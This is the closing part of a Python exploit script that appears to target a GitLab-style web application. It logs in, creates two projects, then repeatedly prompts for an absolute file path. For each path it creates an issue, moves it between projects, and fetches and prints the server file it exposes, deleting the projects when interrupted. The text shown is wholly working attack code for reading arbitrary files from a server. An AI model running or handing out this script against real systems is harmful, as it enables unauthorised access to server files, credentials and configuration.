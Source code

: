 ```
 
    print('[+] File URL : ' + fileurl)
    try:
      contents = session.get(fileurl, verify=False)
    except Exception as exc:
      print('\n[-] Exception : ' + str(exc))
      sys.exit()
    if contents.status_code == 404:
        print('[-] No such file or directory')
    else:
      print('\n> ' + filename)
      print('{}\n\n{}\n{}\n'.format('-'*40, contents.text, '-'*40 ))
  elif move_req.status_code == 500:
    print('[-] Access Denied!')
  else:
    print('[-] Status : ' + str(move_req.status_code))
 
def delete_project(project):
  print('[!] Deleting {}...'.format(project))
  delete_data = {
    'utf8': '✓',
    '_method': 'delete',
    'authenticity_token' : csrf_token
  }
  delete_url = '{}/{}/{}'.format(base_url, username, project)
  try:
    delete_req = session.post(delete_url, data=delete_data, verify=False)
  except Exception as exc:
    print('\n[-] Exception : ' + str(exc))
    sys.exit()
  if delete_req.status_code == 200:
    print('[+] {} Successfully Deleted!'.format(project))
  else:
    print('[-] Status : ' + str(delete_req.status_code))
 
try:
  banner()
  show_info()
  login()
  for project in project_names:
    create_project(project)
  while True:
    filename = input('[>] Absolute Path to File : ')
    create_issue(project_names[0])
    move_issue(project_names[0], project_names[1], filename)
except KeyboardInterrupt:
  print('\n[-] Keyboard Interrupt')
  for project in project_names:
    delete_project(project)
  sys.exit()
```
